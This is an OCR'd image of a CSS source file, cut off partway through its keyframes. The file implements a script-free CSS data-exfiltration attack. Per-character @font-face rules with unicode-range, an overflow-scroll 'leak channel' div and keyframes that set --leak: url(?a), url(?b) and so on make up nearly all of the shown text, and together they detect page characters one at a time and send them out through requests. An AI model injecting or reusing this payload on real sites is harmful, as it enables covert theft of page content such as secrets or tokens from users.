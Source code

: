 ````css
@font-face{font-family:has_O;src:local('Comic Sans MS');unicode-range:U+4f;font-style:monospace;}
@font-face{font-family:has_P;src:local('Comic Sans MS');unicode-range:U+50;font-style:monospace;}
@font-face{font-family:has_Q;src:local('Comic Sans MS');unicode-range:U+51;font-style:monospace;}
@font-face{font-family:has_R;src:local('Comic Sans MS');unicode-range:U+52;font-style:monospace;}
@font-face{font-family:has_S;src:local('Comic Sans MS');unicode-range:U+53;font-style:monospace;}
@font-face{font-family:has_T;src:local('Comic Sans MS');unicode-range:U+54;font-style:monospace;}
@font-face{font-family:has_U;src:local('Comic Sans MS');unicode-range:U+55;font-style:monospace;}
@font-face{font-family:has_V;src:local('Comic Sans MS');unicode-range:U+56;font-style:monospace;}
@font-face{font-family:has_W;src:local('Comic Sans MS');unicode-range:U+57;font-style:monospace;}
@font-face{font-family:has_X;src:local('Comic Sans MS');unicode-range:U+58;font-style:monospace;}
@font-face{font-family:has_Y;src:local('Comic Sans MS');unicode-range:U+59;font-style:monospace;}
@font-face{font-family:has_Z;src:local('Comic Sans MS');unicode-range:U+5a;font-style:monospace;}
@font-face{font-family:has_0;src:local('Comic Sans MS');unicode-range:U+30;font-style:monospace;}
@font-face{font-family:has_1;src:local('Comic Sans MS');unicode-range:U+31;font-style:monospace;}
@font-face{font-family:has_2;src:local('Comic Sans MS');unicode-range:U+32;font-style:monospace;}
@font-face{font-family:has_3;src:local('Comic Sans MS');unicode-range:U+33;font-style:monospace;}
@font-face{font-family:has_4;src:local('Comic Sans MS');unicode-range:U+34;font-style:monospace;}
@font-face{font-family:has_5;src:local('Comic Sans MS');unicode-range:U+35;font-style:monospace;}
@font-face{font-family:has_6;src:local('Comic Sans MS');unicode-range:U+36;font-style:monospace;}
@font-face{font-family:has_7;src:local('Comic Sans MS');unicode-range:U+37;font-style:monospace;}
@font-face{font-family:has_8;src:local('Comic Sans MS');unicode-range:U+38;font-style:monospace;}
@font-face{font-family:has_9;src:local('Comic Sans MS');unicode-range:U+39;font-style:monospace;}
@font-face{font-family:rest;src: local('Courier New');font-style:monospace;unicode-range:U+0-10FFFF}

div.leak {
overflow-y: auto; /* leak channel */
overflow-x: hidden; /* remove false positives */
height: 40px; /* comic sans capitals exceed this height */
font-size: 0px; /* make suffix invisible */
letter-spacing: 0px; /* separation */
word-break: break-all; /* small width split words in lines */
font-family: rest; /* default */
background: grey; /* default */
width: 0px; /* initial value */
animation: loop step-end 200s 0s, trychar step-end 2s 0s; /* animations: trychar duration must be 1/100th of loop duration */
animation-iteration-count: 1, infinite; /* single width iteration, repeat trychar one per width increase (or infinite) */
}

div.leak::first-line{
font-size: 30px; /* prefix is visible in first line */
text-transform: uppercase; /* only capital letters leak */
}

/* iterate over all chars */
@keyframes trychar {
0% { font-family: rest; } /* delay for width change */
5% { font-family: has_A, rest; --leak: url(?a); }
6% { font-family: rest; }
10% { font-family: has_B, rest; --leak: url(?b); }
11% { font-family: rest; }
15% { font-family: has_C, rest; --leak: url(?c); }
16% { font-family: rest }
20% { font-family: has_D, rest; --leak: url(?d); }
21% { font-family: rest; }
25% { font-family: has_E, rest; --leak: url(?e); }
26% { font-family: rest; }
30% { font-family: has_F, rest; --leak: url(?f); }
31% { font-family: rest; }
35% { font-family: has_G, rest; --leak: url(?g); }
36% { font-family: rest; }
````